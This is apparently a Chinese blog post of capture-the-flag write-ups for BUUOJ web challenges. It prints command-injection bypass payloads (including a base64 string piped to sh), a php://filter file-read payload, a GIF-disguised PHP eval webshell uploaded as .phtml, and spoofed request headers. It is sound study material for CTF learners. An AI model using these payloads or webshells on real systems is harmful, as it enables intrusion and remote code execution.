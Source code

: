 ```yaml
---
title: BUUOJ 之 Web 刷题记
date: 2023-09-14 13:09:00
tags: [CTF, Web]
categories: 学习
---
```


这学期好像没什么课，就想着学一下 Web ，于是就去 BUUOJ 上刷题了。（copilot 挺懂我）

<!--more-->

## 前言

其实一开始学 CTF 的时候就想做 Web 了，但是当时密码手快毕业了，密码也简单好学，就先学密码了。
现在密码也学了个半桶水，得着手全栈了。

## 刷题

### [GXYCTF2019]Ping Ping Ping

题目给出一个 `?ip=`，显然是让我用 `GET` 方法传参，随便传个 `1` 返回的是 ping 的结果，看来是命令执行，我习惯性后面补个 `&&ls`，结果没反应，一看 wp 原来还能用分号的，`&&` 要上一条命令执行成功才会执行下一条，而 `;` 则是不管上一条命令是否成功都会执行下一条，所以这里用 `;` 就行了。

然后难点在于正则过滤，`index.php` 内容如下：

```php
/?ip=
<pre>PING 1 (0.0.0.1): 56 data bytes
/?ip=
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

这里过滤了空格和 flag，所以不能直接 `cat flag.php`，wp 的 payload 是

```bash
?ip=127.0.0.1;cat$IFS$1`ls`
```

`$IFS` 是空格，`$1` 是第一个参数，所以这里就是 `cat flag.php index.php`，然后就能看到 flag 了。注意这里的 `$1` 会带出 `ls` 的所有结果而不仅仅是 `flag.php`。所以 `cat` 出来的是目录下所有文件。

解法二是 `echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`，这里的 `Y2F0IGZsYWcucGhw` 是 `cat flag.php` 的 base64 编码，`-d` 是解码，然后传到 `sh` 执行。注意到 `index.php` 只过滤了 `bash`，所以这里可以用 `sh`。

### [强网杯 2019]随便注

最头疼的就是这些注入了，没学过 sql 语句，也没学过数据库。

随便填个 1 提交后返回

```sql
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
```

从网上抄的 `1' or '1'='1` 不管用，有空再回来补。

### [SUCTF 2019]EasySQL

抄的 wp：`*,1`，也不懂，有空补。

### [极客大挑战 2019]Secret File

F12 看到

```html
<a id="master" href="./Archive_room.php" style="background-color:#000000;height:70px;width:200px;color:black;left:44%;cursor:default;">Oh! You found me</a>
```

转到 `Archive_room.php`，有一个按钮指向 `action.php`，点了之后是一个 302 后的 `end.php`。应该是跳到 `action.php` 然后光速重定向到 `end.php`，所以没看到 `action.php` 的内容。
用 burpsuite 抓包，发现 `action.php` 有个 `secr3t.php`，进去后是以下代码

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

这时候要用 php 伪协议读取 `flag.php`，`php://filter` 是 php 伪协议，`read=convert.base64-encode/resource=` 是 base64 编码，`flag.php` 是要读取的文件，所以这里的 payload 是 `secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php`，然后把返回的 base64 解码就行了。

### [极客大挑战 2019]Http

找到藏着的标签

```html
<a style="border:none;cursor:default;" onclick="return false" href="Secret.php">氛围</a>
```

转到 `Secret.php`，按他提示依次改 Referer, User-Agent 和 X-Forwarded-For，然后就能看到 flag 了。改完后如下：

```yaml
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25539
Upgrade-Insecure-Requests: 1
User-Agent: "Syclover" browser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Referer: https://Sycsecret.buuoj.cn
X-Forwarded-For: localhost
```

### [极客大挑战 2019]Knife

蚁剑连上秒了。

### [极客大挑战 2019]Upload

考文件上传，只能上传图片，还过滤了 `<?`，新建一个文件写如下内容：

```html
GIF89a? <script language="php">eval($_REQUEST['a'])</script>
```

然后后缀改成 `.jpg`，上传成功，然后在 burpsuite 把后缀改成 `.phtml` 重发一遍，文件存在了 `/upload` 文件夹，用蚁剑连上去就行了。
或者上传 `.phtml`先，这时上传是失败的的，bp 抓包把 `Content-Type` 改成 `image/jpeg` 重发一遍就行了。

### [ACTF2020 新生赛]Upload

和上面的差不多，前端验证后缀，上传个 `.jpg` 然后 bp 改下后缀重发就行。

### [极客大挑战 2019]BabySQL

又是 SQL 注入，跳过。

### [极客大挑战 2019]PHP

盲猜有个 `www.zip`，下载下来看到 `unserialize`，反序列化的题。

```php
<?php
include 'flag.php';
error_reporting(0);
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function __wakeup(){
        $this->username = 'guest';
    }
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}
?>
```

反序列化时会首先执行 `__wakeup`，然后执行 `__destruct`，但是 `__wakeup` 里把 `username` 改成了 `guest`，所以 `__destruct` 里的 `if ($this->username === 'admin')` 正常情况下永远不会成立，所以这里要绕过 `__wakeup`，在反序列化时，当前属性个数大于实际属性个数时，就会跳过 `__wakeup`，但是这个似乎是 PHP 低版本的漏洞，用高版本的 PHP 复现不出来。

